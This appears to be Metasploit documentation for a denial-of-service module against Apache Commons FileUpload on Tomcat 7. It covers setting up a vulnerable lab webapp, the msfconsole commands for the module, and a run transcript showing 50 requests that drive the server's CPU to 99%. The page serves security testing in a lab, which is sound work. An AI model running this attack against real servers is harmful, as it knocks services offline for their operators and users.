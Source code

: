 ## Vulnerable Application

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat7](http://apache.osuosl.org/tomcat/tomcat-7/v7.0.50/bin/apache-tomcat-7.0.50.exe)
3. Download the example [multipart form war file](https://github.com/rapid7/metasploit-framework/files/712278/sample-multipart-form.zip)
4. Unzip sample-multipart-form.zip && cd sample-multipart-form
  1. If Compiling: `mvn clean package`
5.  `cp target/sample-multipart-form.war $TOMCAT-7.0.50/webapps/`
6. Start Tomcat (linux: `$TOMCAT-7.0.50/bin/startup.sh`)
7. Check if the webapp is running: `http://localhost:8080/sample-multipart-form/multipartForm`

## Verification Steps

  1. Install Tomcat, and the vulnerable form
  2. Start msfconsole
  3. Do: ```use auxiliary/dos/http/apache_commons_fileupload_dos```
  4. Do: ```set rhost <rhost>```
  5. Do: ```set TARGETURI <uri>```
  6. Do: ```run```
  7. Tomcat should be utilizing 99%+ of the CPU

## Options

### TARGETURI

  The URI where the multipart form is located.  There is no real default and this will change based on the application.

## Scenarios

Scenario uses the sample multipart form provided in this documentation, against Tomcat 7.0.50 on a Windows XP system.

```
msf exploit(handler) > use auxiliary/dos/http/apache_commons_fileupload_dos
msf auxiliary(apache_commons_fileupload_dos) > set rhost 192.168.2.108
rhost => 192.168.2.108
msf auxiliary(apache_commons_fileupload_dos) > set rport 8087
rport => 8087
msf auxiliary(apache_commons_fileupload_dos) > set TARGETURI /sample-multipart-form/multipartForm
TARGETURI => /sample-multipart-form/multipartForm
msf auxiliary(apache_commons_fileupload_dos) > run

[*] Sending request 1 to 192.168.2.108:8087
[*] Sending request 2 to 192.168.2.108:8087
[*] Sending request 3 to 192.168.2.108:8087
[*] Sending request 4 to 192.168.2.108:8087
[*] Sending request 5 to 192.168.2.108:8087
[*] Sending request 6 to 192.168.2.108:8087
[*] Sending request 7 to 192.168.2.108:8087
[*] Sending request 8 to 192.168.2.108:8087
[*] Sending request 9 to 192.168.2.108:8087
[*] Sending request 10 to 192.168.2.108:8087
[*] Sending request 11 to 192.168.2.108:8087
[*] Sending request 12 to 192.168.2.108:8087
[*] Sending request 13 to 192.168.2.108:8087
[*] Sending request 14 to 192.168.2.108:8087
[*] Sending request 15 to 192.168.2.108:8087
[*] Sending request 16 to 192.168.2.108:8087
[*] Sending request 17 to 192.168.2.108:8087
[*] Sending request 18 to 192.168.2.108:8087
[*] Sending request 19 to 192.168.2.108:8087
[*] Sending request 20 to 192.168.2.108:8087
[*] Sending request 21 to 192.168.2.108:8087
[*] Sending request 22 to 192.168.2.108:8087
[*] Sending request 23 to 192.168.2.108:8087
[*] Sending request 24 to 192.168.2.108:8087
[*] Sending request 25 to 192.168.2.108:8087
[*] Sending request 26 to 192.168.2.108:8087
[*] Sending request 27 to 192.168.2.108:8087
[*] Sending request 28 to 192.168.2.108:8087
[*] Sending request 29 to 192.168.2.108:8087
[*] Sending request 30 to 192.168.2.108:8087
[*] Sending request 31 to 192.168.2.108:8087
[*] Sending request 32 to 192.168.2.108:8087
[*] Sending request 33 to 192.168.2.108:8087
[*] Sending request 34 to 192.168.2.108:8087
[*] Sending request 35 to 192.168.2.108:8087
[*] Sending request 36 to 192.168.2.108:8087
[*] Sending request 37 to 192.168.2.108:8087
[*] Sending request 38 to 192.168.2.108:8087
[*] Sending request 39 to 192.168.2.108:8087
[*] Sending request 40 to 192.168.2.108:8087
[*] Sending request 41 to 192.168.2.108:8087
[*] Sending request 42 to 192.168.2.108:8087
[*] Sending request 43 to 192.168.2.108:8087
[*] Sending request 44 to 192.168.2.108:8087
[*] Sending request 45 to 192.168.2.108:8087
[*] Sending request 46 to 192.168.2.108:8087
[*] Sending request 47 to 192.168.2.108:8087
[*] Sending request 48 to 192.168.2.108:8087
[*] Sending request 49 to 192.168.2.108:8087
[*] Sending request 50 to 192.168.2.108:8087
[*] Auxiliary module execution completed
```

 ![tomcat7_dos](https://cloud.githubusercontent.com/assets/752491/22169486/71980e2e-df42-11e6-8353-4f1e260375ee.png)
 
